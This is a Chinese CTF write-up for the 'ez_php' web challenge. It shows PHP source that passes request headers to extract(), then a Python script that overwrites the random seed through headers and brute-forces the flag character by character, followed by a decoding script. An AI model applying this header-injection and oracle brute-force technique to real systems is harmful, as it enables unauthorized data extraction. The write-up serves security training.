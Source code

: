 ```yaml
---
title: 台州学院 2023 ez_php
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机，看到如下源码（进行了些许美化）

```php
<?php
error_reporting(0);
$Seed = str_split(uniqid(), 10)[1];
extract(getallheaders());
mt_srand($Seed);
$flag = str_split(file_get_contents("/flag"));
$result = "";
foreach ($flag as $value) {
    $result = $result.chr(ord($value) + mt_rand(1, 2));
}
if (isset($Answer)) {
    if ($Answer == substr($result, 0, strlen($Answer))){
        echo "wow~";
    } else {
        echo "no~";
    }
} else {
    highlight_file(__FILE__);
    echo "no~";
}
```

## `mt_rand()` 伪随机

细品一下代码，上网搜一搜就能发现，`mt_rand(1, 2)` 是个伪随机的函数，从 `(1, 2)` 中选一个作为值，而跟他有关联的 `mt_srand($Seed)` 是将 `$Seed` 作为随机生成器的种子。

换句话说，如果我们能掌握住一个固定的种子，那么这个随机数就跟没有一样（因为是伪随机，经过处理之后照样可以用相同的 `$Seed` 绕回来）

题目刚开始有一句 `$Seed = str_split(uniqid(), 10)[1];`，很明显，生成了一个我不知道是什么东西的种子，但这无妨，我们可以覆写他

## `extract()` 覆写

`extract(getallheaders())` 即将 Http 请求 Headers 中的所有键值对转成程序内的可调用变量，就比如说我在 Headers 中写一个 `Temp=1`，那么此 PHP 程序中的后文就可以调用到变量 `$Temp`，并且 `echo $Temp;` 会输出 `1`

理论如此，那么直接实践，前面定义了一个 `$Seed`，我不管，直接 Headers 中再写一个 `Seed=2`，那么我的种子就是固定的数字 `2` 了

再阅读一下代码，发现下文有一个变量 `$Answer`，这个变量上文没有被定义过，所以我们就用同样的方法，在 Headers 中写一个 `Answer=?`（不是真的 `?`，这代表暂时还不知道是什么），看到下面的判断语句

```php
$Answer == substr($result, 0, strlen($Answer))
```

这说明当我们输入 n 个字符，他就会将我们这 n 个字符与加密后的 Flag 的前 n 位进行比较，若比较成功，则返回 `wow~`，不然就是 `no~`，那我们可以用 Python 写出一个爆破脚本

## 爆破

```python
import requests

ascii_chars = []

# 生成可打印的所有 ASCII 字符
for i in range(33, 127):
    ascii_chars.append(chr(i))

url = "http://120.26.101.154:28094/"
answer = ""

# 每当我成功试出一个符合的字符，就将其追加到 answer 中，直到报错
i = 0
while i < 95:
    response = requests.get(url, headers={
        "Seed": "2", # 这里的 Seed 就是在 Headers 中去覆写的 Seed
        "Answer": answer + ascii_chars[i]
    })
    if response.text == "wow~":
        answer += ascii_chars[i]
        print("current: " + answer)
        i = 0
    else:
        i += 1
print(answer)

```

你应该可以看到类似于这样的输出

```
current: g
current: gn
current: gnc
current: gnch
current: gnch|
...（省略很多很多）
current: gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4
current: gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~
```

得出加密后的 Flag 为 `gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~`，此时距离做完只剩一步了，就是把他还原出来，我们可以用 PHP 脚本编写还原代码

## 还原

```php
<?php
$Seed = 2;
mt_srand($Seed);
$flag = str_split("gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~");
$result = "";
foreach ($flag as $value){
    $result = $result.chr(ord($value)-mt_rand(1,2));
}
echo $result;
```

运行后得出最终结果 `flag{a4565102-b1a0-40f7-ad81-5457ab97d1a3}`
